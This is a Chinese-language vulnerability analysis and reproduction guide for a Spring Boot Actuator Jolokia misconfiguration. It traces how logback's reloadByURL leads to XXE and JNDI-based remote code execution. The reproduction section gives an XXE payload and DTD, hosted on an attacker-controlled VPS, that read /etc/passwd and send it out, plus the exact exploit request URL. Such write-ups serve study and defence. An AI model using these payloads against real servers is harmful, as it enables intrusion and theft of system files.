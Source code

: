 ```yaml
---
title: Spring Boot Actuator jolokia 配置不当导致的远程文件包含漏洞
id: zhfly3131
---
```


# Spring Boot Actuator jolokia 配置不当导致的XXE漏洞

## 一、漏洞简介

Spring boot 会把 **/!** 解析成 */*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。
***前提条件***
**查看jolokia/list中存在的 Mbeans，是否存在logback 库提供的reloadByURL方法**

```
https://www.0-sec.org:9090/jolokia/list 
```

![4140320665.png](../img/f20f5c7e823f0d037b8142c60dd0f210.png)

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**->**Jolokia**->**Logback**->**JNDI**->**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下

![image](../img/bf0806e61a0a6fc126b4d00804252268.png)

只要是 **/jolokia** 为第一个 **path** 节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler#handleGetRequest** 里

![image](../img/946a6fbf3f2505d41410886b6fe26bb2.png)

在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2** 这样能够保留 **/** 符号，后边用得到
可以根据 **path** 节点新建 **JmxRequest** 对象
大致如下图所示，有这么些类别可以指定

![image](../img/870196513b650678e707633837cb0aa0.png)

我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest 类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest 的构造函数，如下所示

![image](../img/9b921a5dd7571988b5f80c712698d79e.png)

跟进 initObjectName 函数，如下

![image](../img/e16c1ee02ab43085ad3bf65530c5e796.png)

如上图，这里将 exec 后面的第一个 path 节点带进了 javax.management.ObjectName 构造函数中

![image](../img/b9b755dff799e11d97900b0991463ace.png)

根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个 ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation 属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入 org.jolokia.http.HttpRequestHandler#executeRequest 执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个 org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![image](../img/113fcb5b6cf0b539664c1c7458d01328.png)

如上图，就是将 JmxExecRequst 中的 operation 做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments 转换成对应类型，最后执行 server.invoke 的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过 `/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator 就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：

![image](../img/e9a10bbdfe253acc034611e4dc4e2437.png)

首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个 reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![image](../img/994933184ba9de2206bd6590045bc239.png)

如上图，它的参数是一个 URL 类型的，我们传入进去只能是 String，但是不用方，ExecHandler 的 doHandRequest 当中会对目标函数的参数类型做适配，将 String 转换成 URL 。
但是这里有个问题，因为需要指定 schema ，所以必须有类似 http:// 这样的开头，而我们的 path 进去以后，会用 / 切割分组的，所以就需要用到前面的流程中对 uri 的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

![image](../img/90246ad1a06b2fd4f154015b453c746e.png)

从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的
跟进函数如下：

![image](../img/fb1cc522e02a051a423f734adbed5021.png)

继续跟进上图中的红色方框如下

![image](../img/96808491a62e3e896c4d318c109108b1.png)

如上图所示，在调用 recordEvents 的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml 文件， xml 解析的过程就是发生在 recordEvents 的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下 recordEvents 执行过程，如下

![image](../img/6f9a4577dc67626e2f515e0dd0edba44.png)

很简单，build 完成后直接 parse，那我们查看一下 build 的时候是否有做防护，如下

![image](../img/49173cddf7d8b37f247b4bb2eeca7f5a.png)

什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢
不方，我们查一查 logback insertFormJNDI 标签啥

![image](../img/50d28afbb1ec410a6f70bfa71d91af76.png)

其中的 env-entry-name 就是指向 jndi 的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi 触发 java 反序列化，最终导致 RCE

### 漏洞复现

*   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
<a>&trick;</a> 
```

*   在VPS上创建ian.dtd

```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>"> 
```

![2.png](../img/d67da368e964591ed55f7cd1978e5e7e.png)

*   开启http服务

```
python -m SimpleHTTPServer 80 
```

*   远程访问logback.xml文件

```
https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml 
```

![1.png](../img/c26997d908ed601561d2d89cd97afa7f.png)

*   可以看到服务器上也返回了响应日志
    ![3.png](../img/1d88a7a192f0a76444971681aade5832.png)

## 参考链接

> https://xz.aliyun.com/t/4258

> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/